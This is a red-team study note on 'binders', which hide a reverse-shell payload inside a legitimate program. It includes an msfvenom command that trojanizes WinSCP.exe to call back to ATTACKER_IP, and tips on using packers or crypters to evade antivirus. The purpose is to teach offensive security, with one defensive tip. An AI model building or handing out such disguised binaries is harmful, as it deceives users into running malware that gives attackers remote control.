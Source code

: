 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/binders-malware-development/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
It applies the concept of trojan malware but still different: it is a tool used to combine a legitimate program (game or utility) with a malicious payload - resulting when the file is run, the legitimate app will launch normally, but the malicious code executes in the background:

![Evading Antivirus - Shellcode-7.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-7.png)

While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

Change the entry point in the PE header so that our shell code executes right before the program, in this way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

#### Key Topics
---
- [[#Binding with Msfvenom|Inject malicious payloads into legitimate programs using msfvenom’s -x option and create disguised reverse shells.]]
    
- [[#Questions and Problems|Understand execution prerequisites, limitations, and security concerns around binder use, including architecture compatibility and digital signatures.]]

## Binding with Msfvenom
---
The method used by msfvenom injects your malicious program by creating an extra thread for it, slightly different from what was mentioned previously however achieves the same result, this is much better since the legitimate program won't get blocked in case your shellcode fails for some reason.

```C
msfvenom -x Path/to/binary/WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

In this case we are executing WinSCP but in the background it will execute our payload:

![Evading Antivirus - Shellcode-8.png|550](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-8.png)

In our attacker shell:

![Evading Antivirus - Shellcode-9.png](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-9.png)

It wont' help hiding our payload against AV solutions - the main use is to fool the users believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.
### Questions and Problems
---
**Prerequisites or condition in order for binders to work?**

1. **Matching Architecture** Both binder and payload must be the same bitness—x86 or x64—else the injection will fail.
2. **Digital Signatures**
	- **Description**: Binding invalidates code signing unless re-signed, which is rare for malicious use.
	- **Red Team Tip**: If forging a signature, it must be trusted in the target environment.
	- **Blue Team Tip**: Treat unsigned or signature-altered binaries, especially those mimicking trusted software, as highly suspicious.

